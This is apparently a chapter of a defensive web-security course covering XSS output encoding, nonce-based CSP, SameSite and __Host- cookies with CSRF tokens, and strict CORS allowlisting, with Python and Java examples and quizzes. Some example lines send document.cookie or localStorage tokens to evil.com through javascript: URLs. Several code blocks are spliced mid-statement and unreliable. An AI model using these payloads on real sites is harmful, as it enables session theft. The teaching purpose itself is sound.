

# Browser Security: XSS, CSP Nonces, CSRF (SameSite Cookies) & CORS Origin Reflection

```json continuity
{
  "previously": "In Chapter 04, AeroShield v0.4 secured our backend SQL, NoSQL, OS subprocess, and template interpreters against injection.",
  "painPoint": "AeroCart's web app still had three fatal browser bugs: an attacker stored `` in a flight review (Stored XSS), tricked logged-in passengers into submitting a hidden form from `evil-promo.com` (CSRF), and exploited a backend that echoed any `Origin` header alongside `Access-Control-Allow-Credentials: true` (CORS account takeover)!",
  "unlock": "Build AeroShield v0.5: enforce context-aware HTML/URL encoding + nonce-based `Content-Security-Policy` (CSP), lock down session cookies with `SameSite=Lax/Strict; HttpOnly; Secure` + anti-CSRF tokens, and enforce strict CORS origin allowlisting."
}
```

```json walkthrough
[
  {
    "time": "0:00",
    "badge": "Same-Origin Policy",
    "title": "The Browser's Core Law: `(scheme, host, port)` Isolation",
    "caption": "The Same-Origin Policy (SOP) prevents `https://evil.com` from reading responses from `https://aerocart.com`. XSS, CSRF, and CORS misconfigurations are the three ways attackers subvert or bypass SOP!",
    "nodes": ["XSS (Runs JS Inside Origin)", "CSRF (Sends Ambient Cookies)", "CORS (Relaxes SOP Read Lock)", "AeroShield v0.5"],
    "activeIndex": 3,
    "code": "Origin_A = ('https', 'app.aerocart.com', 443)\nOrigin_B = ('https', 'evil.com', 443)  # Cross-Origin!"
  },
  {
    "time": "0:25",
    "badge": "XSS & CSP Nonces",
    "title": "Reflected, Stored & DOM XSS + Nonce-Based CSP",
    "caption": "Context-aware output encoding stops HTML injection, `javascript:` URLs must be blocked on `href`, and a per-request `Content-Security-Policy: script-src 'nonce-<random>'` stops inline injected scripts from executing!",
    "nodes": ["Encode `< > & \" '`", "Block `javascript:` URLs", "CSP `script-src 'nonce-...'`", "Zero Script Execution"],
    "activeIndex": 2,
    "code": "Content-Security-Policy: default-src 'self'; script-src 'nonce-8f9a2b...'; object-src 'none';"
  },
  {
    "time": "0:50",
    "badge": "CSRF & Cookies",
    "title": "`HttpOnly`, `Secure`, `SameSite=Lax/Strict` & Anti-CSRF Tokens",
    "caption": "`HttpOnly` hides cookies from `document.cookie` (XSS theft), `Secure` requires HTTPS, and `SameSite=Lax/Strict` + synchronizer CSRF tokens stop cross-site `<form method='POST'>` attacks.",
    "nodes": ["HttpOnly (No JS Read)", "Secure (HTTPS Only)", "SameSite=Strict/Lax", "X-CSRF-Token Header"],
    "activeIndex": 2,
    "code": "Set-Cookie: __Host-session=abc; Secure; HttpOnly; Path=/; SameSite=Lax"
  },
  {
    "time": "1:15",
    "badge": "CORS Misconfig",
    "title": "Why Reflecting Arbitrary `Origin` + `Allow-Credentials: true` Is Fatal",
    "caption": "Browsers forbid `Access-Control-Allow-Origin: *` with `Allow-Credentials: true`. To work around that, naive devs echo `request.headers['Origin']`—letting ANY website read authenticated user responses!",
    "nodes": ["evil.com Sends Cookie", "Server Echoes Origin: evil.com", "Allow-Credentials: true", "Account Leaked to evil.com!"],
    "activeIndex": 2,
    "code": "if req_origin in ALLOWED_ORIGINS:\n    resp.headers['Access-Control-Allow-Origin'] = req_origin"
  }
]
```

```json pretraining
[
  {
    "term": "Reflected, Stored, and DOM-Based XSS",
    "formula": "Untrusted Input -> Executed as JavaScript in Victim's Origin",
    "meaning": "Cross-Site Scripting (XSS) occurs when attacker input executes as JavaScript inside the victim's browser session—either echoed immediately from a URL parameter (Reflected), saved in the DB like a review comment (Stored), or written into dangerous browser sinks like `innerHTML` or `location.href = 'javascript:...'` (DOM-based)."
  },
  {
    "term": "Nonce-Based Content-Security-Policy (CSP)",
    "formula": "script-src 'nonce-<random_128bit>' 'strict-dynamic'",
    "meaning": "An HTTP response header instructing the browser to only execute `<script nonce=\"...\">` tags carrying a cryptographic one-time token generated fresh on every page render, neutralizing injected inline scripts."
  },
  {
    "term": "Cross-Site Request Forgery (CSRF)",
    "formula": "Evil Site Triggers Request -> Browser Automatically Attaches Victim's Session Cookie",
    "meaning": "An attack where a malicious page causes a logged-in user's browser to send a state-changing request (`POST /api/transfer`) to a target site; defeated by `SameSite=Lax/Strict` cookies and cryptographic anti-CSRF tokens."
  },
  {
    "term": "CORS Origin Reflection Vulnerability",
    "formula": "Access-Control-Allow-Origin: <Mirrored Untrusted Origin> + Allow-Credentials: true",
    "meaning": "When a server dynamically copies the incoming `Origin` header into `Access-Control-Allow-Origin` alongside `Access-Control-Allow-Credentials: true`, it grants any malicious website full read access to authenticated API responses."
  }
]
```

## 🌱 Step 1: Plain-English Mental Model — The Browser's Three-Wall Fortress

Your web browser runs code from dozens of untrusted websites at the same time—a news tab in Tab 1, your `AeroCart` flight checkout in Tab 2, and a random game in Tab 3. What stops the game in Tab 3 from reading your credit card receipt in Tab 2?

The browser enforces a foundational law called the **Same-Origin Policy (SOP)**: every website is locked inside its own `(scheme, host, port)` room (`https://app.aerocart.com:443`). Nearly all browser security bugs fall into three attacks against that room:



1. **Cross-Site Scripting (XSS)**: The attacker smuggles malicious JavaScript (`<script>` or `onerror=...`) *inside* `AeroCart`'s HTML page so the browser thinks `AeroCart` wrote it.
2. **Cross-Site Request Forgery (CSRF)**: `evil.com` cannot *read* `AeroCart`'s responses, so it silently submits a hidden HTML `<form>` to `AeroCart`, counting on the browser to automatically attach your `AeroCart` login cookie!
3. **CORS Misconfiguration**: `AeroCart` accidentally tells the browser *"Let any `Origin` read my private JSON responses with cookies attached!"*

---

## 🔨 Step 2: Zero-to-Running Starter & CLI — Inspecting CSP, Cookies & CORS (`AeroShield v0.5`)

You can test how an API responds to a hostile cross-origin preflight or credentialed request in one `curl` command:

```bash
# Test whether an endpoint dangerously reflects an arbitrary Origin header:
curl -i -H "Origin: https://evil.attacker.example" http://127.0.0.1:8090/api/health
```

Let's build **`AeroShield v0.5`** in Python 3 stdlib (`html`, `secrets`, `hmac`, `urllib.parse`), enforcing context-aware XSS encoding + `javascript:` URL blocking, nonce-based CSP headers, `SameSite` cookie attributes + CSRF token validation, and strict CORS origin allowlisting:

```python
from __future__ import annotations
import html
import hmac
import secrets
from urllib.parse import urlparse

# Subgoal 1: Prevent Reflected/Stored/DOM XSS via HTML escaping and URL scheme allowlisting
SAFE_URL_SCHEMES: frozenset[str] = frozenset({"http", "https", "mailto"})


def render_safe_review_card(author_name: str, website_url: str) -> tuple[str, str]:
    parsed = urlparse(website_url.strip())
    safe_href = website_url if parsed.scheme.lower() in SAFE_URL_SCHEMES else "#"
    escaped_name = html.escape(author_name, quote=True)
    escaped_href = html.escape(safe_href, quote=True)
    nonce = secrets.token_hex(16)
    csp = f"default-src 'self'; script-src 'nonce-{nonce}'; object-src 'none'; base-uri 'self'"
    html_snippet = f'<a href="{escaped_href}">{escaped_name}</a><script nonce="{nonce}">initCard();</script>'
    return csp, html_snippet


# Subgoal 2: Enforce CORS exact Origin allowlist (never echo arbitrary Origin with Allow-Credentials!)
TRUSTED_CORS_ORIGINS: frozenset[str] = frozenset({"https://app.aerocart.com", "https://staging.aerocart.com"})


def build_cors_headers(request_origin: str | None) -> dict[str, str]:
    if request_origin in TRUSTED_CORS_ORIGINS:
        return {
            "Access-Control-Allow-Origin": request_origin,
            "Access-Control-Allow-Credentials": "true",
            "Vary": "Origin",
        }
    return {}


# Subgoal 3: Validate CSRF synchronizer token + build __Host- cookie header
def verify_csrf_and_cookie(session_csrf: str, header_csrf: str) -> str:
    if not session_csrf or not hmac.compare_digest(session_csrf, header_csrf):
        raise PermissionError("CSRF_TOKEN_MISMATCH")
    return "Set-Cookie: __Host-aerocart_sid=s1; Secure; HttpOnly; Path=/; SameSite=Strict"


csp_hdr, html_out = render_safe_review_card('', 'javascript:alert(document.cookie)')
assert " ALLOWED_ORIGINS = Set.of("https://app.aerocart.com");
    private static final Set<String> SAFE_SCHEMES = Set.of("http", "https");

    public static void main(String[] args) {
        // Subgoal 1: Escape HTML context and block 'javascript:' URI scheme (XSS defense)
        String escaped = htmlEscape("<script>alert(1)</script>");
        assert !escaped.contains("<script>") && escaped.contains("&lt;script&gt;");
        assert "#".equals(sanitizeHref("javascript:alert(1)"));
        assert "https://aerocart.com".equals(sanitizeHref("https://aerocart.com"));

        // Subgoal 2: Block untrusted CORS Origin reflection and verify CSRF token
        assert evaluateCors("https://evil.com").isEmpty();
        assert "https://app.aerocart.com".equals(evaluateCors("https://app.aerocart.com").get("Access-Control-Allow-Origin"));
        assert verifyCsrf("csrf_99", "csrf_99");
    }

    public static String htmlEscape(String raw) {
        return raw.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;")
                  .replace("\"", "&quot;").replace("'", "&#x27;");
    }

    public static String sanitizeHref(String url) {
        try {
            String scheme = URI.create(url.trim()).getScheme();
            return (scheme != null && SAFE_SCHEMES.contains(scheme.toLowerCase())) ? url : "#";
        } catch (IllegalArgumentException ex) {
            return "#";
        }
    }

    public static Map<String, String> evaluateCors(String origin) {
        if (origin != null && ALLOWED_ORIGINS.contains(origin)) {
            return Map.of("Access-Control-Allow-Origin", origin, "Access-Control-Allow-Credentials", "true", "Vary", "Origin");
        }
        return Map.of();
    }

    public static boolean verifyCsrf(String expected, String actual) {
        return expected != null && actual != null && MessageDigest.isEqual(
                expected.getBytes(StandardCharsets.UTF_8), actual.getBytes(StandardCharsets.UTF_8));
    }
}
```

---

## 🛠️ Step 3: Everyday Practitioner Workflows & Where Naive Code Breaks

### 1. Why React/Angular Still Suffer from XSS (`dangerouslySetInnerHTML` & `href="javascript:..."`)
Modern frameworks like React automatically escape text inside `{userComment}`. However, two fatal DOM/Stored XSS sinks bypass React's auto-escaping:
- Rendering HTML strings via `dangerouslySetInnerHTML={{ __html: bio }}` without sanitizing through **DOMPurify**.
- Binding user-controlled URLs into `<a href={userWebsite}>`: HTML entity escaping does **not** stop `href="javascript:fetch('https://evil.com?c='+document.cookie)"`! You must parse the URL and allowlist `http:` / `https:`.

### 2. Why `SameSite=Lax` Alone Is Not a Complete CSRF Fix
Modern browsers default cookies to `SameSite=Lax`, which blocks cookies on cross-site `POST` forms (`<form method="POST">`), **but still sends cookies on top-level cross-site `GET` navigations** (`window.location = "https://aerocart.com/api/logout"` or poorly designed state-changing `GET` endpoints). Furthermore, sibling subdomains (`legacy-blog.aerocart.com` $\to$ `api.aerocart.com`) are considered **same-site** (`eTLD+1`)!
Therefore, Staff engineers combine:
- **`__Host-` Cookie Prefix** (`__Host-sid=...; Secure; HttpOnly; Path=/; SameSite=Lax` — guarantees no subdomain can overwrite the cookie because `Domain` attribute is forbidden on `__Host-` cookies!).
- **Anti-CSRF Token (`X-CSRF-Token`)** on all state-mutating (`POST`, `PUT`, `PATCH`, `DELETE`) requests.

### 3. The Classic Regex & `Origin: null` CORS Blunders
- **Regex Substring Bypass**: Checking `origin.endswith("aerocart.com")` matches `https://evilaerocart.com`! Checking `origin.startswith("https://aerocart.com")` matches `https://aerocart.com.evil.com`! Always use an **exact `frozenset` match**.
- **Allowing `Origin: null`**: Sandboxed `<iframe sandbox="allow-scripts">` tags send `Origin: null`. If your server allowlists `"null"`, any attacker can host a sandboxed iframe and steal authenticated responses!

```json contrast
{
  "title": "CORS, Cookies & CSP Configuration (Naive vs. Staff Hardened)",
  "leftLabel": "❌ Vulnerable CORS Regex, Loose Cookie & unsafe-inline CSP",
  "leftCode": "# 1. Bypassed by https://evilaerocart.com or sandboxed Origin: null!\nif origin.endswith('aerocart.com') or origin == 'null':\n    resp.headers['Access-Control-Allow-Origin'] = origin\n    resp.headers['Access-Control-Allow-Credentials'] = 'true'\n\n# 2. Vulnerable to JS theft (missing HttpOnly) & subdomain overwrite\nresp.set_cookie('sid', token)\n\n# 3. 'unsafe-inline' completely disables XSS protection in CSP!\nresp.headers['Content-Security-Policy'] = \"script-src 'self' 'unsafe-inline'\"",
  "rightLabel": "✅ Exact Origin Set, __Host- Cookie & Nonce CSP",
  "rightCode": "# 1. Exact O(1) frozenset lookup + Vary: Origin for CDN cache safety\nif origin in {'https://app.aerocart.com'}:\n    resp.headers['Access-Control-Allow-Origin'] = origin\n    resp.headers['Access-Control-Allow-Credentials'] = 'true'\n    resp.headers['Vary'] = 'Origin'\n\n# 2. __Host- prefix + Secure + HttpOnly + SameSite=Strict\nresp.set_cookie('__Host-sid', token, secure=True, httponly=True, samesite='Strict', path='/')\n\n# 3. Per-response cryptographic nonce (zero 'unsafe-inline')\nresp.headers['Content-Security-Policy'] = f\"default-src 'self'; script-src 'nonce-{nonce}'; object-src 'none'\""
}
```

```json poe
{
  "question": "Predict the outcome: An API sets `Access-Control-Allow-Origin: https://app.aerocart.com` when `Origin` matches its allowlist, or omits the header otherwise. However, the backend forgets to send `Vary: Origin`, and sits behind a shared CDN cache. What can go wrong?",
  "options": [
    "Browsers refuse to parse CORS headers unless `Vary: Origin` is present",
    "Web Cache Poisoning / Cross-Origin Leak: if the CDN caches a response requested with `Origin: https://staging.aerocart.com` and serves that cached header to `https://app.aerocart.com` (or vice versa), CORS breaks or serves mismatched origin headers across origins",
    "The CDN automatically disables TLS 1.3",
    "Cookies are converted to `SameSite=None`"
  ],
  "answerIndex": 1,
  "explanation": "Whenever `Access-Control-Allow-Origin` changes dynamically based on the request's `Origin` header, the response MUST include `Vary: Origin` so shared caches and CDNs key cached responses by `Origin`."
}
```

---

## 🏢 Step 4: How Big Tech Runs It at Scale, Staff Math & Production Blueprint

### 🏢 In the Wild: Google Strict CSP (`'strict-dynamic'`) & Stripe Cookie Isolation

At **Google** and **Stripe**, maintaining domain allowlists in `Content-Security-Policy` (`script-src https://cdn1.com https://cdn2.com`) failed at scale because a single JSONP or AngularJS file hosted on an allowed CDN let attackers bypass CSP!
Instead, Google pioneered **Nonce-Based Strict CSP**:
`Content-Security-Policy: script-src 'nonce-{RANDOM}' 'strict-dynamic'; object-src 'none'; base-uri 'none';`
1. Every HTML response generates a fresh 128-bit Base64/Hex `nonce`.
2. Injected `<script>evil()</script>` tags lack the `nonce` attribute and are blocked by the browser before a single byte of JS runs.
3. `'strict-dynamic'` allows a trusted `<script nonce="...">` bundle to dynamically load its own webpack/Vite code-split chunks without needing fragile CDN domain allowlists!

### Staff Nonce Entropy & Cookie Scope Matrix

If an attacker injects a dangling markup tag or attempts to guess a per-response CSP `nonce` of $b$ random bits across $Q$ requests, the collision/guess probability is:

$$P(\text{Nonce Guess}) = \frac{1}{2^b} \implies \text{For } b = 128\text{ bits (16 random bytes)}, \quad P(\text{Guess}) = 2^{-128} \approx 2.93 \times 10^{-39}$$

| Browser Control | Stops Stored/DOM XSS? | Stops Cross-Site Form CSRF? | Stops Subdomain Cookie Overwrite? |
| :--- | :--- | :--- | :--- |
| **`HttpOnly` Cookie Flag** | No (stops `document.cookie` exfiltration, but XSS can still call `fetch('/api')`!) | No | No |
| **`SameSite=Lax` / `Strict`** | No | **Yes** (`Lax` blocks POST; `Strict` blocks GET + POST) | No (`sub.aerocart.com` is still same-site!) |
| **`__Host-` Cookie Prefix + `X-CSRF-Token`** | No | **Yes (Even from sibling subdomains!)** | **Yes (`Domain` attribute forbidden)** |
| **Context Encoding + Strict Nonce CSP** | **Yes (Blocks inline & unauthorized JS)** | N/A | N/A |

### Production Blueprint: `AeroShield v0.5` Browser Security Header & Policy Auditor

```python
from __future__ import annotations
import html
import hmac
import secrets
from dataclasses import dataclass
from urllib.parse import urlparse


@dataclass(frozen=True)
class BrowserSecurityVerdict:
    status_code: int
    headers: dict[str, str]
    safe_body: str


class AeroShieldBrowserGuard:
    """Enforces XSS encoding, URI scheme allowlisting, Strict Nonce CSP, __Host- CSRF cookies, and exact CORS."""

    ALLOWED_ORIGINS = frozenset({"https://app.aerocart.com", "https://admin.aerocart.com"})
    ALLOWED_SCHEMES = frozenset({"http", "https", "mailto"})

    def process_request(
        self,
        method: str,
        origin: str | None,
        session_csrf: str,
        header_csrf: str | None,
        untrusted_comment: str,
        untrusted_link: str,
    ) -> BrowserSecurityVerdict:
        # 1. CORS exact allowlist check (rejects evil.com, evilaerocart.com, and 'null')
        if origin is not None and origin not in self.ALLOWED_ORIGINS:
            return BrowserSecurityVerdict(403, {}, "CORS_ORIGIN_DENIED")

        # 2. State-changing methods require constant-time Anti-CSRF token verification
        if method in {"POST", "PUT", "PATCH", "DELETE"}:
            if not header_csrf or not hmac.compare_digest(session_csrf, header_csrf):
                return BrowserSecurityVerdict(403, {}, "CSRF_TOKEN_INVALID")

        # 3. Context-aware HTML escaping + URI scheme validation
        parsed_uri = urlparse(untrusted_link.strip())
        safe_link = untrusted_link if parsed_uri.scheme.lower() in self.ALLOWED_SCHEMES else "#"
        body = (
            f'<div class="comment">{html.escape(untrusted_comment, quote=True)}</div>'
            f'<a href="{html.escape(safe_link, quote=True)}">Profile</a>'
        )

        # 4. Mint per-response 128-bit CSP nonce and hardened headers
        nonce = secrets.token_hex(16)
        headers = {
            "Content-Security-Policy": (
                f"default-src 'self'; script-src 'nonce-{nonce}' 'strict-dynamic'; "
                "object-src 'none'; base-uri 'none'; frame-ancestors 'none'"
            ),
            "Set-Cookie": "__Host-aerocart_sid=v1; Secure; HttpOnly; Path=/; SameSite=Strict",
            "X-Content-Type-Options": "nosniff",
        }
        if origin in self.ALLOWED_ORIGINS:
            headers["Access-Control-Allow-Origin"] = origin
            headers["Access-Control-Allow-Credentials"] = "true"
            headers["Vary"] = "Origin"

        return BrowserSecurityVerdict(200, headers, body)


if __name__ == "__main__":
    guard = AeroShieldBrowserGuard()
    # 1. Block CORS suffix/null attacks
    for bad_origin in ["https://evilaerocart.com", "https://app.aerocart.com.evil.com", "null"]:
        assert guard.process_request("GET", bad_origin, "c1", None, "hi", "https://a.com").status_code == 403

    # 2. Block POST without valid CSRF token
    assert guard.process_request("POST", "https://app.aerocart.com", "c1", "wrong", "hi", "https://a.com").status_code == 403

    # 3. Verify XSS script & javascript: URI neutralization + CSP nonce on valid POST
    verdict = guard.process_request(
        "POST",
        "https://app.aerocart.com",
        "csrf_secret_1",
        "csrf_secret_1",
        "<script>steal()</script>",
        "javascript:alert(1)",
    )
    assert verdict.status_code == 200
    assert "<script>" not in verdict.safe_body and 'href="#"' in verdict.safe_body
    assert "'strict-dynamic'" in verdict.headers["Content-Security-Policy"]
    assert verdict.headers["Vary"] == "Origin"
    print("AeroShield v0.5 Browser Security Suite passed 100%.")
```

### Java 17 Equivalent

```java
import java.net.URI;
import java.nio.charset.StandardCharsets;
import java.security.MessageDigest;
import java.security.SecureRandom;
import java.util.HexFormat;
import java.util.Set;

public final class AeroShieldCh05Blueprint {
    private static final Set<String> ALLOWED_ORIGINS = Set.of("https://app.aerocart.com");
    private static final Set<String> ALLOWED_SCHEMES = Set.of("http", "https", "mailto");
    private static final SecureRandom RNG = new SecureRandom();

    public record SecurityResponse(int status, String cspHeader, String corsOrigin, String safeHtml) {}

    public static SecurityResponse evaluateBrowserRequest(
            String method, String origin, String sessionCsrf, String headerCsrf, String comment, String link) {
        if (origin != null && !ALLOWED_ORIGINS.contains(origin)) {
            return new SecurityResponse(403, "", "", "CORS_DENIED");
        }
        if (Set.of("POST", "PUT", "PATCH", "DELETE").contains(method)) {
            if (headerCsrf == null || !MessageDigest.isEqual(
                    sessionCsrf.getBytes(StandardCharsets.UTF_8),
                    headerCsrf.getBytes(StandardCharsets.UTF_8))) {
                return new SecurityResponse(403, "", "", "CSRF_DENIED");
            }
        }
        byte[] nonceBytes = new byte[16];
        RNG.nextBytes(nonceBytes);
        String nonce = HexFormat.of().formatHex(nonceBytes);
        String csp = "default-src 'self'; script-src 'nonce-" + nonce + "' 'strict-dynamic'; object-src 'none'";
        String safeHref = isSafeScheme(link) ? htmlEscape(link) : "#";
        String html = "<div>" + htmlEscape(comment) + "</div><a href=\"" + safeHref + "\">Link</a>";
        return new SecurityResponse(200, csp, origin == null ? "" : origin, html);
    }

    private static boolean isSafeScheme(String url) {
        try {
            String s = URI.create(url.trim()).getScheme();
            return s != null && ALLOWED_SCHEMES.contains(s.toLowerCase());
        } catch (Exception e) {
            return false;
        }
    }

    private static String htmlEscape(String s) {
        return s.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace("\"", "&quot;");
    }

    public static void main(String[] args) {
        assert evaluateBrowserRequest("GET", "https://evilaerocart.com", "c1", null, "hi", "https://a.com").status() == 403;
        assert evaluateBrowserRequest("POST", "https://app.aerocart.com", "c1", "bad", "hi", "https://a.com").status() == 403;
        SecurityResponse ok = evaluateBrowserRequest(
                "POST", "https://app.aerocart.com", "c1", "c1", "", "javascript:evil()");
        assert ok.status() == 200 && !ok.safeHtml().contains(" [!WARNING]
> **Hiring Bar-Raiser Gotcha — "`HttpOnly` Cookies Completely Defeat XSS" Is a Myth!**
> When an interviewer asks *"If we store the session JWT inside an `HttpOnly` cookie instead of `localStorage`, are we safe from XSS?"*, never say yes! While `HttpOnly` stops `document.cookie` from exfiltrating the raw cookie string to another server, **an XSS payload executing inside `https://app.aerocart.com` can simply call `fetch('/api/v1/bookings/refund', {method: 'POST', credentials: 'include'})` and the browser will attach the `HttpOnly` cookie automatically!** Furthermore, XSS can read any CSRF token rendered in the DOM or same-origin API response. The only real cure for XSS is context-aware encoding, safe DOM sinks, and a strict nonce-based CSP!

*Up Next in Chapter 06*: We return to the cloud backend to tackle **OWASP API7:2023 Server-Side Request Forgery (SSRF)** against AWS/GCP instance metadata (`169.254.169.254`), DNS rebinding, AWS IMDSv2 `hop-limit=1`, and **Stripe-style HMAC-SHA256 webhook verification**.

```json quiz
[
  {
    "id": "sec05-q1",
    "question": "Why is returning `Access-Control-Allow-Origin: <mirrored Request Origin>` together with `Access-Control-Allow-Credentials: true` a critical vulnerability?",
    "options": [
      "It disables TLS encryption on the socket",
      "It instructs the victim's browser to attach authenticated session cookies to cross-origin requests from ANY website (`evil.com`) and grants `evil.com`'s JavaScript full permission to read the private API response",
      "It allows SQL injection inside the `Origin` header",
      "It deletes the user's `SameSite` cookies"
    ],
    "answerIndex": 1,
    "explanation": "Reflecting arbitrary `Origin` headers with `Access-Control-Allow-Credentials: true` completely disables the Same-Origin Policy read barrier for authenticated endpoints."
  },
  {
    "id": "sec05-q2",
    "question": "A React component renders `<a href={userProfileUrl}>{userName}</a>`. React automatically HTML-escapes `{userProfileUrl}` and `{userName}`. How can an attacker still execute XSS when a victim clicks the link?",
    "options": [
      "By entering `<script>alert(1)</script>` as `userName`",
      "By setting `userProfileUrl` to `javascript:fetch('https://evil.com?t='+localStorage.token)`—which contains zero HTML characters (`< > \"`) and executes JavaScript upon click unless the URL scheme is allowlisted to `http:`/`https:`",
      "By using UTF-16 encoding in `userName`",
      "React blocks `javascript:` URLs in all versions"
    ],
    "answerIndex": 1,
    "explanation": "HTML entity encoding does not neutralize the `javascript:` pseudo-protocol inside `href` or `src` attributes. Always parse URLs and allowlist `http:` / `https:` / `mailto:`."
  },
  {
    "id": "sec05-q3",
    "question": "What security guarantee does the `__Host-` cookie name prefix (`Set-Cookie: __Host-sid=...; Secure; HttpOnly; Path=/`) enforce in modern browsers?",
    "options": [
      "It encrypts the cookie value with AES-256-GCM automatically",
      "It forces the browser to reject the cookie unless `Secure` is set, `Path=/` is set, and NO `Domain` attribute is present—preventing a compromised sibling subdomain (`blog.aerocart.com`) from tossing or overwriting the parent session cookie",
      "It makes the cookie expire after 5 minutes",
      "It disables CORS preflight requests"
    ],
    "answerIndex": 1,
    "explanation": "Without `__Host-`, a compromised sibling subdomain (`promo.aerocart.com`) can set `Domain=.aerocart.com` cookies and perform session fixation/CSRF against `app.aerocart.com`."
  }
]
```

---

## 📋 Step 5: Master Cheat-Sheet, 60-Second Interview Pitch & Verified Sources

| Browser Vector | Vulnerable Pattern | Hardened Header / Code Control | QA Verification Check |
| :--- | :--- | :--- | :--- |
| **Reflected / Stored XSS** | Raw string in HTML or `dangerouslySetInnerHTML` | Context-aware escaping (`html.escape`) + DOMPurify | Inject ``; assert escaped |
| **DOM URL XSS** | `<a href={untrustedUrl}>` | Parse URL & allowlist `{"http", "https", "mailto"}` | Inject `javascript:alert(1)`; assert sanitized to `#` |
| **Inline Script Execution** | `script-src 'self' 'unsafe-inline'` | `script-src 'nonce-<128bit>' 'strict-dynamic'` | Assert fresh CSP nonce per response & zero `'unsafe-inline'` |
| **CSRF** | Plain `Set-Cookie: sid=...` | `__Host-sid=...; Secure; HttpOnly; Path=/; SameSite=Strict` + `X-CSRF-Token` | Replay POST without `X-CSRF-Token`; assert `403` |
| **CORS Account Takeover** | Echoing arbitrary `Origin` or `endswith()` regex | Exact `frozenset` match + `Vary: Origin` | Send `Origin: https://evilaerocart.com` & `null`; assert blocked |

### 🎙️ 60-Second Interview Soundbite

> *"Browser security revolves around defending and properly scoping the Same-Origin Policy. For XSS, I combine context-aware output encoding and explicit `http`/`https` URL scheme allowlisting on `href` attributes with a per-response 128-bit nonce-based Content-Security-Policy (`script-src 'nonce-...' 'strict-dynamic'`), never allowing `'unsafe-inline'`. For CSRF, I pair `__Host-` prefixed cookies (`Secure; HttpOnly; Path=/; SameSite=Strict`)—which prevent sibling subdomain cookie tossing—with constant-time anti-CSRF tokens on state-changing verbs. Finally, for CORS, I test that credentialed endpoints validate `Origin` against an exact allowlist set rather than regex suffixes or `'null'`, and always emit `Vary: Origin` to prevent CDN cache poisoning."*

### 📚 Verified Primary Sources
- [OWASP Cheat Sheet Series — Cross-Site Scripting (XSS) Prevention & Context Encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet Series — Cross-Site Request Forgery (CSRF) & SameSite Defense](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [PortSwigger Web Security Academy — Cross-Origin Resource Sharing (CORS) Vulnerabilities](https://portswigger.net/web-security/cors)
